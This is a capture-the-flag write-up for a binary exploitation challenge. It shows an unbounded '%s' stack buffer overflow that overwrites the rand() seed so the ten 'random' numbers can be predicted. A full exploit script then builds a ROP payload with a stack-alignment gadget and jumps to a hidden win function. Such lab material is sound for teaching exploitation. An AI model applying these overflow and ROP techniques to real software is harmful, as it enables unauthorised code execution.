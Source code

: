 the challenge description says we have to guess ? i dont think so :P<br>
![My Image](./img/really_random_challenge_desc.png)<br>

first we anayze the binary and rename variables<br>
![My Image](./img/Decomp_randome.png)<br>

we have a win()  named potato :D <br>
![My Image](./img/win.png)<br>
![My Image](./img/vars.png)<br>

here we have the overflow vuln the format specifier `%s` does not cap the amount of bytes we can input.<br>
![My Image](vuln_1.png)<br>

we can overflow the Stack but how can we reach the ret;<br>
![My Image](./img/goal_1.png)<br>
we have to `guess` the 10 numbers that are generated and transformed here<br>
![My Image](./img/winningNumbers.png)<br>
take a quick look into the rc4() <br>
we copy paste this and add it to our Exploit Script.

```py
def rc4(randNumber,seed):
    tmp = (seed + randNumber >> 0x1f) >> 0x18
    return (seed + randNumber + tmp & 0xff) - tmp
```
![My Image](./img/rc4.png)<br>

ok now how can we guess the 10 numbers ? <br>
We know that the numbers are generated by the `c` implementation of a `pseudo random number generator` the `rand()`.
The `rand()` and the `srand()` are related to each other.<br>
Without the `srand()` function, the `rand()` function would always generate the same number each time the program is run.<br>

this first call to `rand()` will allways generate the same number.<br>
![My Image](./img/vuln_2.png)<br>
that means we know the seed and can generate the correct numbers by ourself.<br>

```
# this will import the libc rand() function to our python script
libc = ctypes.CDLL('/lib/x86_64-linux-gnu/libc.so.6')
```


but even better we dont need to generate the correct seed because we overwrite the seed variable anyways with our Bof Payload <br>

the seed is initiated here<br>
![My Image](./img/gdb_seed.png)

after our Palyload is read in we can see the the seed is overwritten<br>
![My Image](./img/payload_overwrite_seed.png)
so we simply set the seed to 0x00<br>

```
    payload = b''
    payload += b'A'*112                       #fill the 112 bytes of the inputbuffer
    payload += p64(seed)                      #overflow the seed
```
now we generate 10 randome numbers with the `0x1337` seed

```py
for i in range(10):
        numb = rc4(libc.rand(),seed)
        sl(f'{numb}')
```

and here is the full Script

```py
    seed = 0x1337
    libc.srand(seed)


    payload = b''
    payload += b'A'*112
    payload += p64(seed)                                 #set thee seed 
    payload += p64(0x1122334455667788)*2
    payload += p64(rop.find_gadget(['ret'])[0])          #return to fix Stack alignment
    payload += p64(elf.symbols['potato'])                #jump to the potato()


    sl(payload)

    rc('Guess my numbers!')
    sleep(1)

    for i in range(10):
        numb = rc4(libc.rand(),seed)
        sl(f'{numb}')

    inter()

```

care for Stack alignment otherwhise we end up here in a `SIGSEGV` because the `movaps` instruction needs a 0x10 byte aligned Stack<br>
![My Image](./img/movaps_issue.png)

```
Moves a double quadword containing four packed single-precision floating-point values from the source operand (second operand) to the destination operand (first operand). This instruction can be used to load an XMM register from a 128-bit memory location, to store the contents of an XMM register into a 128-bit memory location, or to move data between two XMM registers.

When the source or destination operand is a memory operand, the operand must be aligned on a 16-byte boundary or a general-protection exception (#GP) is generated.
```
source: https://c9x.me/x86/html/file_module_x86_id_180.html<br>



<br>


